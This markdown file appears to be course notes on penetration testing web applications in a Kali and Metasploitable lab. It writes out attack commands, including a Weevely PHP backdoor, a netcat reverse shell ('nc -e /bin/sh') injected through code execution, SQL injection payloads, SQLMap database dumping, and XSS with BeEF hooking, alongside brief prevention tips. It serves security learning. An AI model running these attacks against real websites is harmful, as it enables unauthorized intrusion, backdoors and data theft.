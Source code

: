 # Website Hacking

1. [Information Gathering](#information-gathering)

2. [File Vulnerabilities](#file-vulnerabilities)

3. [SQL Injection Vulnerabilities](#sql-injection-vulnerabilities)

4. [Cross Site Scripting Vulnerabilities](#cross-site-scripting-vulnerabilities)

5. [Discovering Vulnerabilities Automatically](#discovering-vulnerabilities-automatically)

For this section, the Metasploitable machine can be used with Kali, as we'll be making use of the web files stored in the former and attack it on using the latter. We can visit the Metasploitable website by simply using the IP address of the machine.

## Information Gathering

---

* [Whois Lookup](https://whois.domaintools.com/) can be used to find info about owner of target.

* [Netcraft](https://sitereport.netcraft.com/) shows the technologies used on the target.

* [Robtex](https://www.robtex.com/) shows comprehensive info about target.

* If we cannot hack our target website, we can hack other websites on the same server, to gain target access. To find websites on the same server, use Robtex DNS lookup (names pointing to same IP address).

* Knock can be used to find subdomains of target website:

```shell
knockpy google.com #shows subdomains of google.com
```

* Dirb can be used to find files & directories in target website:

```shell
man dirb #info about dirb

dirb http://10.0.2.5/mutillidae #uses default wordlist file to check directories

#this will give a list of discovered files for more info
```

## File Vulnerabilities

---

* File upload vulnerabilities allow users to upload executable files.

* Weevely can be used to generate PHP shells (backdoors) and gain access:

```shell
weevely generate 1234 /root/shell.php #generates a php shell with the password '1234'

#now the shell can be uploaded in the target website
#weevely can be used to interact with the uploaded file
#we have to give url of uploaded file and password

weevely http://10.0.2.5/dvwa/hackable/uploads/shell.php 1234 #this will give access to target file system
```

* Code execution vulnerabilities allow us to execute OS code on target server.

* Netcat can be used for this as it listens and connects computers:

```shell
nc -vv -l -p 8080 #using netcat to listen on port 8080

#now, we can try to connect from target server to our computer using the code execution vulnerability
nc -e /bin/sh 10.0.2.7 8080 #this command to be entered in the website
```

* Local file inclusion vulnerabilities allow us to read files on the same server. This can be exposed through the URL. For example, the URL can be manipulated to view the files in the directory /etc/passwd.

* Remote file inclusion vulnerabilities allow us to read files from any server. This can be done by uploading PHP shells and payloads.

## SQL Injection Vulnerabilities

---

* SQL Injection vulnerabilities can give complete access to the databases and other files. To try and discover SQL injections, we need to browse through the target and try to break each page.

* SQLi examples:

    1. ' - this can be used to break the page
    2. a' or 1=1# - the first part contains a quote to end the query, the second part is always true so it gets executed, pound sign is used to comment any query following this
    3. username' #

* SQLi can be done by manipulating the URL as well (if URL contains parameters such as = or ?, for example). Note that we have to encode special characters in URL; like converting # to %23.

* SQLMap is a tool used to exploit SQLi:

```shell
sqlmap -u "http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=admin&password=passd&user-info-php-submit-button=View+Account+Details"

sqlmap --help

sqlmap -u "http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=admin&password=passd&user-info-php-submit-button=View+Account+Details" --tables -D owasp10 #this will show the tables from the database 'owasp10'
```

* To prevent SQLi, one must use parameterized statements, by separating data from code.

## Cross Site Scripting Vulnerabilities

---

* XSS vulnerabilities allow us to inject JS code into the page, executed when the page loads.

* Reflected XSS are non-persistent and not stored in the website. It works only if target visits a specific URL.

* Similar to SQLi, XSS attacks can be done easily if URL contains specific parameters, or if there are text boxes in the website. For example, entering ```<script>alert("XSS")</script>``` in a text box will result in website prompting "XSS" due to the vulnerability.

* Stored XSS is persistent on the page, executed everytime it's loaded. Similar XSS attacks can be done to achieve the intended effect.

* BeEF can be used too to hook a URL and inject it into the stored XSS page. So, anyone who visits that page will be hooked to BeEF.

* To hook to BeEF, we have to simply insert the hook script with our IP into the textbox in the target website. With stored XSS attacks, anyone who visits that page will be hooked to BeEF.

* To prevent XSS vulnerabilities, minimise usage of user input in HTML and filter the input before inserting into page.

## Discovering Vulnerabilities Automatically

---

* ZAP (Zed Attack Proxy) tool is used to automatically find vulnerabilities in web apps.

* While pentesting a particular website, we have to try all vulnerabilities with the parameters of each subdomain.

* Pentest reports are documents that include all of our findings for the client to understand.
